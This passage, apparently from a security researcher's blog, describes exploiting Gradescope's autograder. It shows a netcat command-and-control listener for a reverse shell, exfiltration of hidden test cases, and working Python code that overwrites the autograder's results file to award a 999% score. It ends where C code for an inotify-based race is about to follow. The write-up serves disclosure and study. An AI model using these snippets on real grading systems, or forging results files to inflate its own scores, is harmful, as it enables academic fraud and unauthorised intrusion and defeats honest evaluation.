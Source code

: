 We also need to run a control-and-command (C2) server available on `C2_HOST_IP:C2_PORT`, which can be easily done with a cheap Digital Ocean droplet. Simply run the command `nc -lk C2_PORT -vvv` using a port such as `4444`.

![Gradescope Docker root reverse shell](/blog/images/gradescope-root-reverse-shell.png)

This also allows us to exfiltrate test cases that would otherwise be hidden (we know these are hidden test cases due to the presence of the `visibility` decorator controlling access before the assignment due date):

![Gradescope hidden test case exfiltration](/blog/images/gradescope-test-exfil.png)

## Editing autograder results

Since the client code's output file `/autograder/results/results.json` is treated as a trusted source of truth, we can modify our own grades as long as our write to that file takes effect after the client code's final write. In particular, we want to write the JSON string `{"score": 999.0}` to the file.

Hanbang Wang's [2019 blog post](https://www.seas.upenn.edu/~hanbangw/blog/hack-gs/) contained a proof-of-concept that appends a line to `/autograder/run_autograder` to write the above JSON string into the results JSON file. The idea is that because shell scripts execute lines immediately after reading them (rather than reading the entire script into memory before execution), appending to the shell script controlling the client autograder allows us to make changes even after the client exits.

To do this for our Python calculator, we simply add the following lines to our `eval` function:

```python
jout = {'"score"': 999.0}
with open("/autograder/run_autograder", "a") as exout:
    exout.write(f"\necho {json.dumps(jout)} > /autograder/results/results.json")
```

When submitting, this gives me 999% on the assignment:

![Gradescope score change](/blog/images/gradescope-score-change.png)

A simpler variation is to just directly write to `results.json` from student code, then attempt to close the client code's file descriptor for that file:

```python
jout = {"score": 999.0}
with open("/autograder/results/results.json", "w") as exout:
    exout.write(json.dumps(jout))

os.closerange(0, 10)
exit(0)
```

This works and gives me 999% too.

However, if neither of these paths were available, we could still perform the attack by attempting to write to `results.json` between when the autograder client code exits and when `harness.py` reads `results.json`. It's possible, but difficult, to do this by simply polling the `results.json` file for the client code's closing of that file. However, to avoid having to do such a timing attack, we can spawn a subprocess that uses `inotify` Linux kernel events to watch writes to the `results.json` file -- writing our own values to that file after an autograder write. To do this, here's some C code that sets up the watcher and the associated action:
